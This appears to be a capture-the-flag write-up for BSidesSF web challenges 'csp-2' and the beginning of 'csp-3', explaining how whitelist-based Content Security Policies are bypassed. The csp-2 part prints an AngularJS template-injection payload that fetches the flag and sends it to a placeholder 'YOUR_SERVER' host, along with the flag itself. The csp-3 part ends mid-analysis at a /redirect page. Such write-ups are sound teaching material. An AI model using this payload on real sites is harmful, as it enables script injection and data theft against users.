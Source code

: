 Let's check the `content-security-policy` value in the HTTP Response Header.

```
content-security-policy: 
    script-src 'self' ajax.googleapis.com 'unsafe-eval'; 
    default-src 'self' 'unsafe-inline'; 
    connect-src *; 
    report-uri /csp_report
```

In the `script-src` directive, `ajax.googleapis.com` is whitelisted. In addition, `unsafe-eval` and `unsafe-inline` is specified.

According to this [presentation material](https://speakerdeck.com/mikispag/content-security-policy-a-successful-mess-between-hardening-and-mitigation), whitelist-based CSP is **almost always trivially bypassable** because these URLs are tend to have JSONP endpoint or host AngularJS.

Even in this challenge, `ajax.googleapis.com` hosts AngularJS at the following URL.

```
https://ajax.googleapis.com/ajax/libs/angularjs/1.1.5/angular.min.js
```

The rest part is easy: just incorporate this AngularJS into the challenge page and run the script using that feature like below.

```html
<script src="//ajax.googleapis.com/ajax/libs/angularjs/1.1.5/angular.min.js"></script> 
<div class="ng-app"> {{ constructor.constructor('fetch("https://csp-2-2446d5a3.challenges.bsidessf.net/csp-two-flag").then(r=>r.text()).then(t=>fetch("YOUR_SERVER"+t))')() }} </div>
```

FLAG: `CTF{Canned_Spam_Perfection}`

# [Web / 458pts] csp-3
A revised version of the previous question.

Let's check the `content-security-policy` value in the HTTP Response Header.

```
content-security-policy: 
    script-src 'self' http://storage.googleapis.com/good.js; 
    default-src 'self'; 
    connect-src *; 
    report-uri /csp_report
```

In the `script-src` directive, `http://storage.googleapis.com/good.js` is whitelisted. This URL is from **Firebase Storage**, however, we can't access this URL because Public URLs in Firebase Storage take the following format:

```
http://storage.googleapis.com/<BUCKET NAME>/<FILE NAME>
```

Hmm... I can't find anything that could be used to exploit from CSP.

After some research, I found a page `/redirect` specified in the `robots.txt`.

